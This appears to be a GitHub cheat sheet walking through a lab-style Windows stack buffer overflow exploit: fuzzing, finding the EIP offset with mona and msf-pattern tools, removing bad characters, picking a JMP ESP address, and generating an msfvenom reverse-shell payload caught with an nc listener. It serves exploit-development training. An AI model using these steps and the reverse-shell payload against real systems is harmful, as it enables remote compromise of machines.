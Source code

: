 # bof
## Buffer Overflows

## Setup
* Open Immunity Debugger as admin
* In Immunity Debugger, set a working folder for mona:
```!mona config -set workingfolder c:\mona\%p```

## Fuzzing
* In Kali, create the fuzzer.py script and execute
* Note the size of the largest string sent
* Create a cyclic payload with pattern_create.rb, 400 bytes longer than crashing string size:
```$ msf-pattern_create -l <string+400>```
* Create exploit.py with the generated payload
		
## Control EIP
* Relaunch target.exe and run exploit.py
* In Immunity Debugger, run findmsp:
```!mona findmsp -distance <string+400>```
* Locate "EIP contains normal pattern: <> (offset <>)"
* Alternate technique: Copy contents of EIP and find offset with msf-pattern_offset:
```$ msf-pattern_offset -l <string+400> -q <EIP>```
* Update exploit.py with new values:
  * Set offset variable value in exploit.py to EIP offset value
  * Set payload to empty string
  * Set retn variable to 'BBBB'
* Relaunch target.exe and run exploit.py
* EIP should now be overwritten with 42424242

## Find Bad Characters
* Create a bytearray in Mona:
```!mona bytearray -b "\x00"```

_Note location of 'bytearray.bin' (c:\mona\*\bytearray.bin)_

* In Kali, create and run a python script to generate bad characters:
```python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
* Update payload variable in exploit.py with badchars string
* Reload target.exe and run exploit.py
* Note the ESP address
* Run !mona compare with the ESP address
```!mona compare -f C:\mona\*\bytearray.bin -a <ESPaddress>```
* Generate a new bytearray in Mona, excluding all badchars from the comparison result:
```!mona bytearray -b "\x00\x07\x2e\xa0"```
* Remove badchars from exploit.py:
```payload = "<all non-bad characters>"```
*  All bad characters identified when result: "Unmodified"
*  Alternate technique: right-click ESP and select "Follow in Dump".  Inspect hexdump to find missing characters and iterate.

## Jump Point
* Run !mona jmp to identify all jump points with addresses that don't contain badchars:
```!mona jmp -r esp -cpb "\x00\x07\x2e\xa0\"```
* Choose a jmp address and update "retn" variable in exploit.py, reversing the endianness:
  * Mona address: "0x625011af"
  * Python address: "\xaf\x11\x50\x62"

## Generate Payload and NOPs
* Create a payload with msfvenom:
```msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1\xa2\xa3\xa4" -f py```
* Update payload of exploit.py with 'buf' variable definition and set payload = buf
* Set padding variable to 16 NOP bytes:
```padding = "\x90" * 16```

## Exploitation
* Start nc listener on :port
* Reload target.exe and exploit
